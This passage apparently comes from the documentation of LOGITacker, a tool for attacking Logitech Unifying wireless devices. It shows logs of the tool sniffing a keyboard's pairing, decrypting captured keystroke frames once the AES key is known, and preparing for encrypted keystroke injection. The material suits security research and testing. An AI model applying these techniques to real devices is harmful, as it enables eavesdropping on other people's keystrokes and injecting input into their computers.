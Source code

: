 ```
<info> LOGITACKER_FLASH: dongle which should be stored to flash exists, updating ...
<info> LOGITACKER_SCRIPT_ENGINE: FDS event handler for scripting: IDLE ... ignoring event
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: device automatically stored to flash
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: Sniffed full pairing, moving on with passive enumeration for 01:89:97:E6:25
<info> LOGITACKER_RADIO: Channel hopping stopped
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: Entering passive enumeration mode for address 01:89:97:E6:25
... snip ...
```

When pressing keys on the - now paired - device, 
LOGITacker should not only print the encrypted reports, but a decrypted version, too (in passive_enum mode).

Here's an example for the key "RIGHT":

```
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: frame RX in passive enumeration mode (addr 01:89:97:E6:25, len: 22, ch idx 9, raw ch 32)
<info> app: Unifying RF frame: Encrypted keyboard, counter BD8A4B14                <<-- encrypted frame
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 D3 1B 9B 99 17 CA 64|.......d
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  3E 4A BD 8A 4B 14 00 00|>J..K...
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 00 00 00 00 6B      |.....k  
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: Test decryption of keyboard payload:
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 4F 00 00 00 00 00 C9|.O......
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: Mod: NONE
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: Key 1: HID_KEY_RIGHT                     <<-- decrypted key press "RIGHT" (only if AES key known)
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: frame RX in passive enumeration mode (addr 01:89:97:E6:25, len: 22, ch idx 9, raw ch 32)
<info> app: Unifying RF frame: Encrypted keyboard, counter BD8A4B15               <<-- encrypted frame
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 D3 E4 FB CE 17 E2 95|........
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  53 C8 BD 8A 4B 15 00 00|S...K...
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 00 00 00 00 30      |.....0  
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: Test decryption of keyboard payload:
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 00 00 00 00 00 00 C9|........
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: Mod: NONE                                <<-- decrypted key release (only if AES key known)
```

Additionally, the device should be listed in red with the remarks "encrypted, key ḱnown":

```
LOGITacker (passive enum) $ devices 
AE:C7:93:48:36 Logitech device, keyboard: yes (encrypted, key ḱnown), mouse: yes
```

Now everything is set, for encrypted injection (LOGITackers script engine automatically encrypts keyboard RF reports
for devices with known key).
